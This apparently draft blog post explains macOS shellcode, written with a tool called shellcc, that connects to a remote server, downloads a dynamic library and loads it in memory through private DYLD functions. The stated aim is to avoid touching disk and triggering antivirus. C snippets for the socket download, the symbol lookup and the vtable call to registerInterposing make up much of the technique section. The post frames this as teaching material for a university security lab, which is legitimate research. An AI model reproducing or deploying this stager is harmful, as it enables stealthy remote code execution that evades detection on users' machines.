 ```yaml
---
layout: post
title: Loading from memory
draft: true
---
```


Building shell code and playing with assembly is my idea of fun. In this article I introduce shellcode that executes to download a dynamic library from a TCP connection and loads it without ever touching the disk. On MacOS, there are several methods of doing that [1], but I would like to show another alternative which possibly requires less code to implement.

## TL;DR;

I reuse functions in DYLD that were never meant to be used externally.

## Shellcode Compiler

A while back I introduced a utility called [shellcc](https://github.com/nologic/shellcc) which is built to assist with building shellcode using a high level language like C. It is called _shellcc_ only because it constructs very compact byte code of instructions. Unfortunately, it does not really handle a lot of the important use-cases of for real shellcode construction. Use-cases such as character restrictions. As such, the tool serves another purpose really well.

I show this use-case in an introductory walk through:

<center><iframe width="420" height="315" src="https://www.youtube.com/embed/yg9svg9xE8g" frameborder="0" allowfullscreen></iframe></center>

When I started out my work on iOS, I did not know Aarch64 assembly very well. So, I needed a boon to help me bootstrap. This was the other purpose of _shellcc_ - an educational tool. I would use it to compile basic C programs in order to understand how the assembly is written to make system calls and process data. So, the tool is kind of an 80% solution that would give me template assembly that I could later play with. It also helped me with reverse engineering. Specifically to test theories about what certain blocks from IDAPro might have looked like in a high level language.

On semi-regular basis, I try to do a presentation at the NYU OSIRIS lab for educational purposes. I pick a topic that I had played with recently and found useful and present in practical detail. I wanted to do this with _shellcc_ and, so, I came up with a practial example: *How to write one of the most common shellcodes? One that connects to a TCP port, downloads a dylib and loads it into the process space.* As an added challenge, I wanted to do so without touching disk (and triggering AV's). This is what I would like to present in this blog. Of course, as I've mentioned earlier, there is more than one way.

## The Technique

The file that implements the technique is called [injectdyld.c](https://github.com/nologic/shellcc/blob/master/shellcode/injectdyld.c) and can be found in the github repository. The name is a bit misleading, but the the technique is there.

First, we connect to the port and download the library:

```c
    bzero((struct sockaddr *)&serv_addr,sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = SERVER_IP;
    serv_addr.sin_port = htons(SERVER_PORT);

    // Connect to the remote host.
    if(scc_connect(sockfd,(struct sockaddr *)&serv_addr,sizeof(serv_addr)) < 0) {
        // If not, clean up and bail.
        scc_exit(44);
    }

    int fileSize = receivefile(sockfd, dyld_buffer, mem_size);
```

Next, we load the dynamic loader:

```c
    int dyld_fd = scc_open("/usr/lib/dyld", O_RDONLY, 0);
    void* dyld_buf = scc_mmap(NULL, mem_size, PROT_READ, MAP_PRIVATE, dyld_fd, 0);
```

This step is a bit wasteful because the process would've likely already had the dynamic loader mapped in memory. However, we are in shell code and it is a lot easier to map the file than to find the existing location.

Then, we find the symbol `dlsym` which will help us find other symbols in the process space.

```c
    typedef void* (*dlsym_t)(void* handle, const char* symbol);
    dlsym_t dlsym = (dlsym_t)findSymbol64(dyld_buf, mem_size, "_dlsym", 6);
```

The `findSymbol64` exists in the shellcode and it parses the Mach-O file of `dyld` to locate the function.

Then we locate the `loadFromMemory` function or, rather, a C++ class constructor.

```c
    typedef void* (*loadFromMemory_t)
       (const uint8_t* mem, uint64_t len, const char* moduleName);

    loadFromMemory_t loadFromMemory = (loadFromMemory_t)findSymbol64(
          dyld_buf, mem_size, "__ZN4dyld14loadFromMemoryEPKhyPKc", 33);

    void* image = loadFromMemory(dyld_buffer, fileSize, NULL);
```

The [__ZN4dyld14loadFromMemoryEPKhyPKc](https://opensource.apple.com/source/dyld/dyld-353.2.1/src/dyld.cpp) function was discovered by analyzing the dyld source code for how it loads Mach-O's into memory. This function will construct a class in memory to internally describe the layout and all the features that the system cares about.

```c++
ImageLoader* loadFromMemory(const uint8_t* mem, uint64_t len, const char* moduleName)
{
    // if fat wrapper, find usable sub-file
    const fat_header* memStartAsFat = (fat_header*)mem;
    uint64_t fileOffset = 0;
    uint64_t fileLength = len;
    if ( memStartAsFat->magic == OSSwapBigToHostInt32(FAT_MAGIC) ) {
        if ( fatFindBest(memStartAsFat, &fileOffset, &fileLength) ) {
            mem = &mem[fileOffset];
            len = fileLength;
```

Next is the easy part. This is where we force the loaded Mach-O file to join the process as a proper dynamic library.

```c
    typedef void (*registerInterposing)(void* _this);

    // `vtable for'ImageLoaderMachOCompressed
    ((registerInterposing) (*( (*(uint8_t***)image) + 64))) (image);
```

Because we are not implementing this in C++, we don't get the nice language abstractions to class objects. So, instead we have to force an instance call. Remember, back in the day, C++ was implemented as C++ to C translator, so we know this has to be possible.

We dereference the image object to obtain the `vtable`, we then dereference again at an offset to get the function of our dreams. We cast the pointer to a function pointer and call it with the pointer to the object as the first parameter. C++ functions (when looked through the eyes of C) expect the first parameter to the `this` pointer.

The `registerInterposing` is a function that is called when we inject libraries into the process by using the environment variable (i.e. `DYLD_INSERT_LIBRARIES`). Using this private interface activates the internal workings of DYLD to load libraries properly to be used by the rest of the process.

```c
    foo_t foo = dlsym(RTLD_DEFAULT, "foo");

    // call the desired procedure.
    int ret = foo();
```

Finally, we execute our library function to kick off the maliciously injected code.

## Conclusion
Using functions `loadFromMemory` and `registerInterposing` seem simple but it was not obvious without a fairly in-depth analysis of DYLD. This method is useful when the alternatives might not be applicable.


---
[1] Objective-C runtime method (https://s3.amazonaws.com/s3.synack.com/infiltrate.pdf slide 29)








